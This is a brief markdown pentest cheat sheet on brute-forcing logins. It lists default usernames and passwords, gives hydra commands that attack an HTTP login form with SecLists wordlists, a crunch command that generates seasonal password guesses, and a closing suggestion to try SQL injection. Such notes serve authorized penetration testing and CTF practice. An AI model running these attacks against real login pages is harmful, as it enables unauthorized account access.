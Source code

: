 # brute forcing

- Try software default credentials
- Try the following usernames

```shell
admin
root
<software-name> (e.g. cms)
```

- Try the following passwords

```shell
root
password
```

- Brute force using most common credentials

```shell
cp /usr/share/seclists/Usernames/top-usernames-shortlist.txt users.txt
cp /usr/share/seclists/Passwords/darkweb2017-top100.txt passwords.txt
hydra -f -L users.txt -P passwords.txt $ip http-post-form "/login:username=^USER^&password=^PASS^:error message."
```
- Brute force using educated passwords. Create list using

```shell
crunch 9 9 -t "Fall202%^" -o crunch.txt
```
- Try SQL injection
